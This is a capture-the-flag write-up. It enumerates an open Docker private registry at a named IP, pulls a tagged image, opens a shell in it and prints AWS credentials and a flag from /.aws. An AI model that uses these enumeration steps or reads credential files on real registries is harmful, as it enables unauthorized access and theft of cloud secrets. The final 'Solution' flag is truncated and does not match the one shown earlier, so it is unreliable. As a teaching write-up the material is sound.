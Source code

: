 Level 13: India
===============

Description
-----------

```
We use docker private registry to host our secure AWS app.

52.53.166.207
```
**Points**: 500

WriteUp
-------

So it seems that the company has started their own *Docker Hub*. A Google search for `docker private registry` throws interesting results such as [https://docs.docker.com/registry/deploying/](this). What is interesting from it is the fact that they are typically up in port 5000 and deployed with:

```
[…]
$ docker run -d -p 5000:5000 --restart=always --name registry registry:2
[…]
```

Typically, if we want to search in Docker Hub we can use `docker search whatever` but it is not possible to launch it directly to a private hub. Coming back to Google, we know want to try recover the available Docker images in the private hub and we find [https://forums.docker.com/t/docker-private-registry-how-to-list-all-images/21136/3](this) in the Docker Forums which claims that it is easy to call listing `https://<host>:<port>/v2/_catalog`. 

So, it's time to try it:
```
 curl http://52.53.166.207:5000/v2/_catalog
{"repositories":["dev-aws-test-code"]}
```
Great, it seems that we have found an image that matches the description of the challenge. Knowing that, the first idea is to try to directly recover the docekr image using `docker pull` but it says that it is not possible to recover the latest image:

```
$ docker pull 52.53.166.207:5000/dev-aws-test-code
Using default tag: latest
Pulling repository 52.53.166.207:5000/dev-aws-test-code
Error: image dev-aws-test-code:latest not found
```

So, this is an error that simply says that there is not image tagged as `:latest`, which is the default tag assumed when not provided. As we do not have Docker Hub web UI to ask for it, we come back to Google to ask for a way of listing the tags of an image and we find [https://docs.docker.com/registry/spec/api/#listing-image-tags](this) in the Docker documentation:

![](res/level_13-list_images.png)

```
$ curl http://52.53.166.207:5000/v2/dev-aws-test-code/tags/list
{"name":"dev-aws-test-code","tags":["notreadyet"]}
```


But trying will raise errors because it will try to recover the images from a secure regitry using SSL. We have to take into account that we have to add the repository (`52.53.166.207:5000`) as an insecure repository to a specific daemon.json file that we have to create (full documentation [https://docs.docker.com/registry/insecure/](here).

The details of the daemon.json are simple:
```
{ "insecure-registries":["52.53.166.207:5000"] }
```
In my case, I have had to restart Docker before pulling the image from the new registry:

```
docker pull 52.53.166.207:5000/dev-aws-test-code
```

So that's why it crashed: there is no `latest` tag but there is a `notreadyet` (note that it's with just one 'y'). Time to pull it:

```
docker pull 52.53.166.207:5000/dev-aws-test-code:notreadyet
```

Once pulled, it's time to run the image with an interactive shell

```
docker run -it 52.53.166.207:5000/dev-aws-test-code:notreadyet
```
As it opens by default `htop`, we opt for opening it with an itneractive Bash shell

```
docker run -it 52.53.166.207:5000/dev-aws-test-code:notreadyet /bin/bash
docker: Error response from daemon: oci runtime error: container_linux.go:247: starting container process caused "exec: \"/bin/bash\": stat /bin/bash: no such file or directory".
```

The crash is suspicious, but we can try with `/bin/sh` nd it just works

```
docker run -it 52.53.166.207:5000/dev-aws-test-code:notreadyet /bin/sh
```


And inside the image, it's pretty straightforward. The lines that follow are copied directly from the terminal, but I think that self-explanatory:

```
/ # ls -la
total 6
total 68
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 .aws
-rwxr-xr-x    1 root     root             0 Aug 12 14:03 .dockerenv
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 app
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 bin
drwxr-xr-x    5 root     root           360 Aug 12 14:03 dev
drwxr-xr-x   17 root     root          4096 Aug 12 14:03 etc
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 home
drwxr-xr-x    6 root     root          4096 Jul  5 14:47 lib
drwxr-xr-x    5 root     root          4096 Jul  5 14:47 media
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 mnt
dr-xr-xr-x  298 root     root             0 Aug 12 14:03 proc
drwx------    2 root     root          4096 Aug 12 14:03 root
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 run
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 sbin
drwxr-xr-x    2 root     root          4096 Jul  5 14:47 srv
dr-xr-xr-x   13 root     root             0 Aug 12 14:03 sys
drwxrwxrwt    2 root     root          4096 Jul  5 14:47 tmp
drwxr-xr-x   10 root     root          4096 Jul  5 14:47 usr
drwxr-xr-x   12 root     root          4096 Jul  5 14:47 var

/var # cd
~ # ls -la
total 12
drwx------    2 root     root          4096 Aug 12 14:03 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
-rw-------    1 root     root           362 Aug 12 14:06 .ash_history
~ # cd /app/
/app # ls -la
total 12
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
-rw-r--r--    1 root     root            43 Aug 11 22:56 README.md
/app # cat README.md 
# Welcome

Need to fix the AWS credentials
/ # cd /.aws/
/.aws # ls -la
total 20
drwxr-xr-x    2 root     root          4096 Aug 11 22:56 .
drwxr-xr-x   31 root     root          4096 Aug 12 14:03 ..
-rw-r--r--    1 root     root            39 Aug 11 22:53 config
-rw-r--r--    1 root     root           116 Aug 11 22:54 credentials
-rw-r--r--    1 root     root           136 Aug 11 22:55 flag.txt
/.aws # cat credentials 
[default]
aws_access_key_id=AKIAIOSFODNN7EXAMPLE
aws_secret_access_key=wJalrXUtnFEMI/K7MDENG/bPxRfioEH62Bzo1TFGabmw
/.aws # cat config 
[default]
region=us-west-2
output=json
/.aws # cat flag.txt 
flag:{ea940af17b004f229329682b4ab0d2502d739920c27d4d6ea94233780fe7fa72c21b31c56e2b4aa68340992a2147056d298870faf4094f179025579a40266cf1}
```
Done! :D

Solution
--------

`flag:{ea940af17b004f229329682b4ab0d2502d739920c27d4d6ea94233780fe7fa72c21b31c56e2b4aa68340992a2147056d298870`
